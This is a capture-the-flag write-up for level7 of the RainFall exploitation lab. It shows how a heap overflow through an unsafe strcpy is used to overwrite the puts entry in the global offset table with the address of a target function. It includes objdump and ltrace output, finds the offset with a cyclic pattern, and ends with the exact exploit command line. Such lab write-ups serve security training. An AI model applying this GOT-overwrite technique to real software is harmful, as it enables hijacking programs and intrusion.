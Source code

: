 Like the previous level before we start by opening the file in [dogbolt](https://dogbolt.org/).

Here we can see that it use `malloc` and `strcpy`. We know that `strcpy` is not secure so let's try to use it to call the `m` function.
Here is what we will try to do :

After analyzing the code we see that `v5` is after `v6`
So with the first `strcpy`  We will try to overflow on `v5` to overwrite the address of the second `strcpy` destination.
In the second `strcpy` we will write the address of `m` in the previous defined destination.
Ok we will try to put the address of `m` in a function call after `fgets` here `puts`

Let's find some addresses :

- address of `m` : 
```Shell
level7@RainFall:~$ objdump -t level7 
...
08049960 g     O .bss   00000050              c
080484f4 g     F .text  0000002d              m
08049940 g       *ABS*  00000000              __bss_start
...
```
`m` in little endian : \xf4\x84\x04\x08

- address of `puts` (in the GOT) : 

```Shell
level7@RainFall:~$ objdump -R level7 

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```
in little endian : \x28\x99\x04\x08

Now let's find the last thing (the offset). For this we will use ltrace with a [pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator) and check what do we have at the second `strcpy` destination:
```Shell
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag AAAA
__libc_start_main(0x8048521, 3, 0xbffff724, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                        = 0x0804a008
malloc(8)                                                                                        = 0x0804a018
malloc(8)                                                                                        = 0x0804a028
malloc(8)                                                                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)                                        = 0x0804a018
strcpy(0x37614136, "AAAA" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
Pattern used : `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5A`
Offset : 20

Everything put together, give us :
[padding to overflow][address of `puts`][address of `m`]
```Shell
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```
